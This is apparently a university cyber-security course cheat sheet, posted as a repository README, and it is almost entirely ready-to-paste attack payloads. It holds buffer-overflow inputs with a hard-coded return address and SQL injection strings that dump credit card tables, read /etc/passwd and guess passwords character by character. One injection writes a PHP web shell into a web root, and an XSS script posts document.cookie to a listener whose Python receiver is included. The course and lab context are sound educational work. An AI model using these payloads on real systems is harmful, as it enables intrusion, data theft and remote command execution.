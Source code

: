 # UNIMORE-cyber-security

```commandline
python3 -c 'print(int('0x2d'))'
```

## Buffer Overflow
```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

### GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

### BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

### python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

### python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

## SQL Injection
> a space after the -- (comment macro) is required
```commandline
'-- 
```
```commandline
' or ''='' -- 
```
```commandline
' union select null, table_name, column_name,null,null,null,null from INFORMATION_SCHEMA.COLUMNS where table_name = 'credit_cards' -- 
```
```commandline
' union select null, ccnumber, ccv, expiration,null,null,null from credit_cards -- 
```
```commandline
' union select null, ccv, expiration,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
' union select null, LOAD_FILE('/etc/passwd'), null,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
scotty' AND password=(SELECT password FROM accounts WHERE username = 'scotty') -- 
```
```commandline
' OR LENGTH((SELECT password FROM accounts WHERE username='scotty'))=8 -- 
```
```commandline
john' AND LENGTH(password)=6; -- 
```
```commandline
john' AND SUBSTRING(password,-6,1)='m'; -- 
john' AND SUBSTRING(password,-6,1)='m' AND SUBSTRING(password,-5,1)='o'; -- 
john' AND SUBSTRING(password,-6,1)='m' AND SUBSTRING(password,-5,1)='o' AND SUBSTRING(password,-4,1)='n'; --
```
```commandline
' union select null,null,null,null,3,2,'<html><head></head><body><h1>Injection mode:</h1><form action="" method="post" enctype="application/x-www-form-urlencoded"><table style="margin-left:auto; margin-right:auto;"><tr><td colspan="2">Please enter system command</td></tr><tr><td></td></tr><tr><td class="label">Command</td><td><input type="text" name="pCommand" size="50"></td></tr><tr><td></td></tr><tr><td colspan="2" style="text-align:center;"><input type="submit" value="Execute Command" /></td></tr></table></form><?php echo "<pre>";echo shell_exec($_REQUEST["pCommand"]);echo "</pre>"; ?></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/injection.php' -- 
```
## XSS
```commandline
<img src="https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fcdn.bestmovie.it%2Fwp-content%2Fuploads%2F2020%2F06%2Fdonald-duck-su-disney-plus.png&f=1&nofb=1&ipt=c8cbf094b7800e8cb06494551c44104897ad20aeaed001a3a5fdf82ad525ae65">
```
```commandline
<form action="http://localhost:8000" method="POST">
  <input name="username" placeholder="Insert your name">
  <input type="submit">
</form>
```
### cookies
```commandline
<script>
  fetch("http://127.0.0.1:8000/", {
    method: "POST",
    body: document.cookie
  });
</script>
```
> save as listener.py
```commandline
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        print("Data received:", post_data.decode())
        self.send_response(200)
        self.end_headers()

server = HTTPServer(('0.0.0.0', 8000), Handler)
print("Listening on port 8000...")
server.serve_forever()
```
```commandline
python3 listener.py
```
